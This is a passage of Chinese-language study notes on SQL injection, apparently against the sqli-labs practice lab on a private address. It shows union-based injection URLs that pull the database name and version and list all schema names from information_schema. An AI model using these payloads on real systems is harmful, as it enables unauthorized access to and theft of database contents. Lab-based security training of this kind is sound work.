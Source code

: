 ![image-20230603200446254](%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230603200446254.png)

### 6、获取当前数据库名

```
select database();		// 获取当前数据名
select version();		// 获取当前数据库的版本信息
```

```
http://192.168.231.129:9001/Less-1/?id=-1'+union+select+1,database(),version()#
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230603203305797.png" alt="image-20230603203305797" style="zoom:50%;" />

### 7、爆破所有数据库名（爆库）

```
http://192.168.231.129:9001/Less-2/?id=-1 union select 1,group_concat(schema_name),3 from information_schema.schemata#
```

